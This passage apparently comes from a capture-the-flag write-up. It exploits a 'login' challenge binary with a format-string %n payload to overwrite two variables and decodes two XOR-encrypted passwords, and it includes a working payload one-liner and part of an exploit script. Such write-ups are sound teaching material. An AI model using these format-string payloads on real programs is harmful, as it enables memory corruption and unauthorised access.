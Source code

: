 ```c
    system("/bin/cat flag.txt");
  }
  return;
}
```
To set the values of `n` and `m` correctly, we must make sure that when `%n` hits the address, the current number of characters written should be `100` and `70`. One way to do this is by using the output width modifier in our format string before `%n`, i.e, `%Xu%n%Yu%n` in the place of `%n%n`, where X and Y are some padding constants. But the `%u` would also pop the stack, and thus we must write some dummy values in the stack before the addresses of `n` and `m`. By trial and error, we can determine the value of X and Y.
```
$ python -c "print 'JUNK' + '\x30\xc0\x04\x08' + 'JUNK' + '\x2c\xc0\x04\x08' + '%x-'*3 + '%33u%n%30u%n'" | ./login
Welcome to the extremely secure login. Who are you?
JUNKJUNK100-f7f97580-804942d-                       1263424842                    1263424842
Enter password 1 of length 100
Nope..
Enter password 2 of length 70
Unauthorised
```
Now the only thing remaining is to determine the two passwords.
It can be observed that in the loops, an XOR operation is performed and the result is compared with values stored in the two `array`s.
It is most probably an XOR cipher.
We can examine the values stored in the arrays in Ghidra by setting the data type as `int` and creating an array using the known lengths of 100 and 70.
The cipher key seems to be stored in `local_2d2` and since the XOR operation is done with `i % 5`, the key must be `5` bytes long. `local_2d2` and `local_2ce` are stored adjacent to each other in memory, and totally occupy 6 bytes, and thus they must together form the key (with one byte extra for the null character). Decoding the hex values `0x544c4544` and `0x41`, we get "DELT" and "A", thus the key must be `DELTA`.
Now we know the array contents and the key, and it is simple to retrieve the required password since it is a simple XOR cipher.
We can decrypt the two passwords and construct our final attack vector as a python script
```python
arr1 = [3, 51, 38, 50, 14, 40, 35, 63, 34, 22, 45, 53, 54, 33, 20, 15, 38, 30, 36, 24, 34, 46,
60, 4, 39, 29, 53, 25, 19, 51, 29, 10, 41, 63, 12, 7, 20, 38, 31, 59, 9, 3, 13, 32, 51, 21, 18, 38, 6, 50, 9, 29, 61, 2, 40, 41, 48, 34, 63, 15, 41, 47, 24, 45, 16, 52, 16, 24, 38, 20, 22, 55, 24, 58, 56, 28, 47, 2, 2, 14, 0, 12, 22, 17, 17, 30, 29, 56, 27, 56, 1, 33, 60, 48, 38, 51,
38, 38, 18, 42]

arr2 = [54, 60, 43, 58, 42, 9, 50, 37, 17, 54, 46, 13, 2, 0, 12, 46, 2, 13, 49, 2, 11, 17, 41,
35, 50, 52, 15, 56, 13, 14, 42, 52, 59, 17, 8, 11, 50, 5, 13, 37, 1, 7, 54, 59, 34, 30, 11, 53, 25, 34, 5, 13, 63, 34, 9, 18, 17, 34, 59, 34, 8, 14, 20, 21, 35, 34, 38, 3, 14, 19]

key = "DELTA"

pass1 = ""
pass2 = ""

for x in range(100):
    pass1 = pass1 + chr(ord(key[x % 5]) ^ arr1[x])

for y in range(70):
    pass2 = pass2 + chr(ord(key[y % 5]) ^ arr2[y])

addr_m = '\x30\xc0\x04\x08'
addr_n = '\x2c\xc0\x04\x08'

stack_pop = '%x-'*3

write = '%33u%n%30u%n' + '\n'

```